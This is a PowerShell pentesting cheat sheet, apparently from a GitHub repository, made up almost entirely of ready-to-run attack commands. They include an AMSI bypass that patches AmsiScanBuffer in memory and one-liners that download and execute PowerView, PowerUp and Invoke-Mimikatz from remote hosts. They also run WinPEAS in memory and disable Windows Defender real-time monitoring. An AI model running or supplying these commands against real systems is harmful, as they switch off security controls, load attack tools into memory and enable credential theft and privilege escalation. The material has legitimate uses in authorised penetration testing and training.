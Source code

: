 # Powershell Pentesting 

## Bypass AMSI by Rastamouse

```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Import Powerview
```powershell
iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

```
## Import Powerup
```powershell
iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
```

## Import Mimikatz
```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")
```

## Execute WinPEAS in memory
```powershell
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

## Disable Defender
```powershell
Set-MPPreference -DisableRealtimeMonitoring $true
```
